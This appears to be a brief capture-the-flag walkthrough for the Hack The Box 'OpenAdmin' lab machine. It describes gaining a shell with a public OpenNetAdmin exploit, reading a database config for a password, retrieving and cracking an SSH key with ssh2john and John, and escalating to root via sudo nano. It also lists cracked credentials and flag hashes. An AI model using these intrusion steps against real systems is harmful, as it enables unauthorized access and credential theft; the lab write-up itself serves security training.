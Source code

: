 


### Foothold
execute the exploit.sh to get a shell (found it from exploitdb
  when searched for OpenNetAdmin)


### User #1
got access to www-data user
$ cd local/config/; cat database_settings.inc.php

and get a pass

n1nj4W4rri0R!

this is for user jimmy


ssh jimmy@10.10.10.171 worked






### User #2

reading the /var/internal/ files we understand that we must do a curl with

curl -X POST http://10.10.10.171/internal/main.php -d 'username=jimmy&password=Revealed'

and we dont get a response



login to jimmy and exec the following

$ netstat -l

and we find a hidden port open, the 52846

curl -d "username=jimmy&password=Revealed" -X POST http://localhost:52846/main.php


curl -X POST http://localhost:52846/main.php

now we got an rsa key for joanna as the main.php file says. we save it as joanna-id-rsa
if we do
$ chmod 600 joanna-id-rsa
$ ssh -i joanna-id-rsa joanna@10.10.10.171
we get asked for a passphrase

we use
ssh2john
$ python ~/JohnTheRipper/run/ssh2john.py ~/Documents/stationary/htb/boxes/openadmin/joanna-id-rsa > tocrack
$ john --wordlist=/usr/share/wordlists/rockyou.txt tocrack

passphrase is :
bloodninjas

login with
$ ssh -i joanna-id-rsa joanna@10.10.10.171

$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f



### root

while in joanna user, type sudo -l

execute the command, and then GTFOBins for nano

root hash:
2f907ed450b361b2c2bf4e8795d5b561
